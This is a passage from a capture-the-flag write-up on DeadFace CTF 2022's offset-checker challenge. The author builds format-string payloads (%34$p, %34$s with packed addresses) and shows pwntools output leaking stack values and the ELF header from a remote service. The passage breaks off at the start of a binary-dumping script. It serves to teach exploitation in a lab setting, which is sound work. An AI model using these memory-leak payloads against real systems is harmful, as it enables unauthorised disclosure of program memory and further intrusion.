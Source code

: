 ```
b'\n\x00Searching buffer:\n\x000x61616161\x00...\n\x00\x00\x00\x00\x00Substring not found\nPlease enter the string (max 200 char) sent to the buffer:'
```
## Leaking the Binary:

So, I examined all of my stack leaks, as well as trying %s with some of the addresses on the stack, and failed to find a flag. As a result, I decided to go for leaking the whole binary for further examination; this will be missing sections and difficult to decompile, but it will certainly be better than nothing!

Here is a simple payload to show how to print a specific address, which would be placed in lieu of the four capital A's.
```
payload = b'%' + str(34).encode('ascii') + b'$p'
payload += b'b' * (20 - len(payload))
payload += b'A' * 4
```
If you send this in, the four 0x41's printed by the format string are the A's.
```
knittingirl@DESKTOP-C54EFL6:/mnt/c/Users/Owner/Desktop/CTF_Files/deadfaceCTF22$ python3 offset_checker_sample_leak.py
[+] Opening connection to offsetcheck.deadface.io on port 31337: Done
b'Please enter the string (max 200 char) sent to the buffer:'
b'%34$pbbbbbbbbbbbbbbbAAAA'
b'\n\x00Please enter what showed up in EIP:'
[*] Switching to interactive mode

\x00Searching buffer:
\x000x41414141\x00..
\x00\x00\x00ubstring not found
Please enter the string (max 200 char) sent to the buffer:
\x00$
```
Now, if we check a 32-bit binary we already have (exploitchecker_old2 will do nicely!), we can see that, if we assume that there is no PIE, the code section should start at 0x08048000 with '\x7fELF'.
![image](https://user-images.githubusercontent.com/10614967/196196922-897834d3-33d0-41d4-8e73-30ab5085c3b8.png)

 We can test that out with some edits to the format string payload:
 ```
payload = b'%' + str(34).encode('ascii') + b'$s'
payload += b'b' * (20 - len(payload))
payload += p32(0x08048000)
 ```
 Which produces an output of:
 ```
 knittingirl@DESKTOP-C54EFL6:/mnt/c/Users/Owner/Desktop/CTF_Files/deadfaceCTF22$ python3 offset_checker_sample_leak.py
[+] Opening connection to offsetcheck.deadface.io on port 31337: Done
b'Please enter the string (max 200 char) sent to the buffer:'
b'%34$sbbbbbbbbbbbbbbb\x00\x80\x04\x08'
b'\n\x00Please enter what showed up in EIP:'
[*] Switching to interactive mode

\x00Searching buffer:
\x00\x7fELFbbb\x00..
\x00\x00\x00ubstring not found
 ```
 Cool! What we can do now is leak the entire binary out in a similar manner. Since the leak only gives us the first 10 characters, it is a little bit more complicated than usual to determine when the string actually terminates due to the presence of a null in the binary, and when it has simply run out of available characters. After a lot of troubleshooting, I came up with the following script:
 ```
 from pwn import *

 ```